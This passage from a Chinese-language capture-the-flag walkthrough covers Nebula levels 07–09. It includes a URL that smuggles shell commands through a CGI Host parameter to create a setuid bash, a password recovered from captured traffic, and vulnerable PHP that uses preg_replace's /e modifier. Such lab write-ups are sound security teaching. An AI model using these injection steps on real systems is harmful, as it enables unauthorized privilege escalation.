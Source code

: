 我们采用与level03相同的方法来获取shell，编写并编译获取shell的C程序。利用`cgi`程序的命令注入来将程序拷贝并增加`suid bit`。

将编译好的程序放至`/tmp/bash`，然后访问以下网址（其中要注意URL编码的问题）：

	http://your-ip:7007/index.cgi?Host=127.0.0.1%3bcp%20/tmp/bash%20/home/flag07/bash%3bchmod%20%2bs%20/home/flag07/bash

之后可以看到flag07目录下已经有了`bash`文件，执行获取shell：

![level07](Exploit-exercises-Nebula/level07_1.png)

---

## Level08

此题在flag08用户目录下可以看到一个`capture.pcap`文件，显然是一个流量包文件，将它下载后（可以使用scp、sftp等方法下载）用`wireshark`打开分析，可以看到以下内容：

![流量分析](Exploit-exercises-Nebula/level08_1.png)

可以看到此处有输入的密码，注意密码中的`.`是不可见字符，查看流量包可以发现它对应的是ASCII的`7f`——即为`DEL`删除。所以实际的密码是`backd00Rmate`。

使用此密码登录flag08账户即可。

---

## Level09

题目给出如下PHP代码：

``` php
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

```